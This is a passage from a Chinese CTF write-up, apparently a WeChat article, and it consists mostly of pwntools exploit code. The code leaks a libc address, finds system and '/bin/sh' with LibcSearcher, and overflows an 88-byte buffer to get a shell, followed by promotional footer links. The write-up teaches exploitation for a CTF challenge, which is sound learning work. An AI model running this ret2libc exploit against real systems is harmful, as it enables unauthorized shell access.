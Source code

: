 ```
r.sendline(payload)

addr = u64(r.recvn(6).ljust(8,'\x00'))
print hex(addr)

r.recv()

obj = LibcSearcher('read', addr)
libc_addr = addr - obj.dump('read')
system_addr = libc_addr + obj.dump('system')
bin_sh = libc_addr + obj.dump('str_bin_sh') 
```

```
payload = 'a'*88
payload += p64(0x400753)
payload += p64(bin_sh)
payload += p64(system_addr)
raw_input()
r.sendline(payload) 
```

```
r.interactive() 
```

如果想更多系统的学习CTF，可点击文末“阅读原文”，进入CTF实验室学习，里面涵盖了6个题目类型系统的学习路径和实操环境。

![](img/a36916f7004de0a0653211c700381e8b.png)

完

点击获取：[2019原创干货集锦 | 掌握学习主动权](http://mp.weixin.qq.com/s?__biz=MjM5MTYxNjQxOA%3D%3D&chksm=bd5928c58a2ea1d36bbab9c96da5b057cb79f1945d84db2d55740e90d3237ac31964404d8d5d&idx=1&mid=2652853256&scene=21&sn=090913b6b5c56bf3dd9f44a6207131d8#wechat_redirect)

大家有好的技术原创文章

欢迎投稿至邮箱：edu@heetian.com

合天会根据文章的时效、新颖、文笔、实用等多方面评判给予200元-800元不等的稿费哦

有才能的你快来投稿吧！

了解投稿详情点击——[**重金悬赏 | 合天原创投稿涨稿费啦！**](http://mp.weixin.qq.com/s?__biz=MjM5MTYxNjQxOA%3D%3D&chksm=bd59304b8a2eb95d8ce88b202c516f3a4366ac5b2da8047180012c46ba7f0e9aa555e3360971&idx=2&mid=2652851334&scene=21&sn=c3cddfe9e230204c6892b06159d419d1#wechat_redirect)
